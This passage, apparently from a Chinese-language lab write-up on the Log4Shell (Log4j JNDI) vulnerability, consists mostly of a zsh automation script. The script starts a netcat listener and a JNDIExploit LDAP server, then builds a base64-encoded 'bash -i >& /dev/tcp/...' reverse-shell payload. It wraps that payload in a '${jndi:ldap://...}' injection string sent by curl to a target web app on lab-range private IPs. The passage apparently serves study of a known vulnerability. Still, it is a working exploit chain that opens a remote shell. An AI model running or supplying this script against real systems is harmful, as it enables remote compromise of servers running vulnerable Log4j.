 ![evidence](../img/lihan3238_doc/evidence.png)

#### 自动化脚本攻击

[auto_atk_1](../code/lihan_code/auto/auto_atk_1.sh)

```bash
#!/bin/zsh

# 配置变量
ATTACKER_IP="192.168.182.130"
ATTACKER_PORT="7777"
TARGET_IP="192.168.182.129"
JNDI_EXPLOIT_PATH="/path/to/JNDIExploit-1.2-SNAPSHOT.jar"

# 提示用户输入目标端口
read "TARGET_PORT?Enter the target port: "

# 检查目标端口是否为空
if [[ -z "$TARGET_PORT" ]]; then
    echo "Error: Target port cannot be empty"
    exit 1
fi

echo "Using target port: $TARGET_PORT"

# 创建新的 tmux 会话，用于 nc 监听
tmux new-session -d -s nc_listener "nc -l -p $ATTACKER_PORT"

# 创建新的 tmux 会话，用于启动 JNDIExploit
tmux new-session -d -s jndi_exploit "java -jar $JNDI_EXPLOIT_PATH -i $TARGET_IP"

# 构建 payload
SHELL_COMMAND="bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1"
BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')
TARGET_URL="http://$TARGET_IP:$TARGET_PORT/hello"
FULL_PAYLOAD="\${jndi:ldap://$ATTACKER_IP:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}"
URL_FULL_PAYLOAD=$(echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g')

# 构建 curl 命令
CURL_COMMAND="curl \"${TARGET_URL}?payload=${URL_FULL_PAYLOAD}\""

```